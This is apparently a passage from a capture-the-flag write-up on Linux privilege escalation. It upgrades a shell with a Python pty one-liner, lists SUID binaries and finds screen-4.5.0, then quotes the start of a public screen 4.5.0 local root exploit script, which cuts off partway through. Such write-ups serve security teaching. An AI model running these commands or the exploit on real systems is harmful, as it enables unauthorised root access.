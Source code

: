 ## Privilege Escalation

First, lets try and get a fully interactive shell. We can do this by using the `python3 -c 'import pty; pty.spawn("/bin/bash")'` command. This gives us a better shell to work with. After this, lets try our basic enumeration commands to see what we can find.

### Insecure System Components

After digging through directories and running some basic enumeration commands we don't find anything entirely useful at first. But, once we run the `find / -perm -u=s -type f 2>/dev/null` command to look for commands with the SUID bit set, we find one that stand out among the mostly default commands: `/usr/bin/screen-4.5.0`

```bash
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```
While we don't have ability to run `screen` with `sudo` since we don't have a password. We can still try and see if we can find an exploit for it.

### Exploiting Screen-4.5.0

Looking into the `screen-4.5.0` binary, we find that it is vulnerable to a local privilege escalation exploit. We can find the exploit on `exploit-db`.This is the raw code found on `exploit-db`:
```bash
!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
```